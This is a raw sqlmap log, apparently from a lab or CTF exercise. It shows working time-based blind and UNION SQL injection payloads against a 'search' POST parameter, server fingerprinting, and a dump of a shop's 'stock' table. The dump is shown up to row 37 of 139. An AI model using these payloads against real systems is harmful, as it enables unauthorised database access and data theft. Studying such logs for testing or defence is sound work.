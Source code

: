 ```bash
sqlmap identified the following injection point(s) with a total of 58 HTTP(s) requests:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=doesnt' AND (SELECT 3319 FROM (SELECT(SLEEP(5)))IDcE) AND 'wUnX'='wUnX&submit=matter

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: search=doesnt' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b6a7a71,0x4e6c437776454b6d534569667761636f4d677879684b7375437972614771776166415a5767416642,0x7178717171)-- -&submit=matter
---
[20:21:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[20:21:45] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[20:21:45] [INFO] fetching current database
[20:21:45] [INFO] fetching tables for database: 'webapp'
[20:21:45] [INFO] fetching columns for table 'stock' in database 'webapp'
[20:21:45] [INFO] fetching entries for table 'stock' in database 'webapp'
Database: webapp
Table: stock
[139 entries]
+-----+------+------------------------+--------+
| id  | cost | item                   | amount |
+-----+------+------------------------+--------+
| 4   | 0.5$ | Acacia Boat            | 1x     |
| 5   | 0.5$ | Armor Stand            | 1x     |
| 6   | 0.2$ | Beetroot Seeds         | 16x    |
| 7   | 0.5$ | Birch Boat             | 1x     |
| 8   | 1$   | Bottle of Enchanting   | 64x    |
| 9   | 0.5$ | Bow                    | 1x     |
| 10  | 0.2$ | Bucket                 | 1x     |
| 11  | 0.1$ | Carrot                 | 64x    |
| 12  | 0.4$ | Cocoa Beans            | 64     |
| 13  | 0.5$ | Crossbow               | 1x     |
| 14  | 0.5$ | Dark Oak Boat          | 1x     |
| 15  | 0.1$ | Egg                    | 16x    |
| 16  | 5$   | End Crystal            | 1x     |
| 17  | 1$   | Ender Pearl            | 16     |
| 18  | 2$   | Eye of Ender           | 16x    |
| 19  | 1$   | Fire Charge            | 16x    |
| 20  | 0.8$ | Firework Rocket        | 16x    |
| 21  | 0.2$ | Fishing Rod            | 1x     |
| 22  | 0.2$ | Flint and Steel        | 1x     |
| 23  | 0.2$ | Glow Berries           | 16x    |
| 24  | 0.1$ | Glow Item Frame        | 1x     |
| 25  | 0.1$ | Item Frame             | 1x     |
| 26  | 0.5$ | Jungle Boat            | 1x     |
| 27  | 0.1$ | Kelp                   | 64x    |
| 28  | 0.5$ | Lava Bucket            | 1x     |
| 29  | 0.6$ | Lead                   | 1x     |
| 30  | 2$   | Lingering Potion       | 16x    |
| 31  | 0.8$ | Melon Seeds            | 64x    |
| 32  | 0.8$ | Minecart               | 1x     |
| 33  | 1$   | Nether Wart            | 16x    |
| 34  | 0.5$ | Oak Boat               | 1x     |
| 35  | 0.2$ | Painting               | 1x     |
| 36  | 1$   | Potato                 | 64x    |
| 37  | 2$   | Redstone Dust          | 64x    |
```